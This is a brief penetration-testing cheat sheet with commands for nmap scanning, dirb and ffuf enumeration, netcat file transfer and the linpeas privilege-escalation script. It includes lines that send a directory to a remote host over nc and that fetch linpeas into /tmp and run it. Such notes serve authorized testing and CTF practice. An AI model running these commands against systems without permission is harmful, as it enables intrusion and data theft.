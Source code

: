 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 5000 -oN nmap_output.txt <host>
```

## Directory enumeration with `dirb`:
```bash
dirb http://<host>/
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<host> -H "Host: FUZZ.<host>" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc <host> 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget <host>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
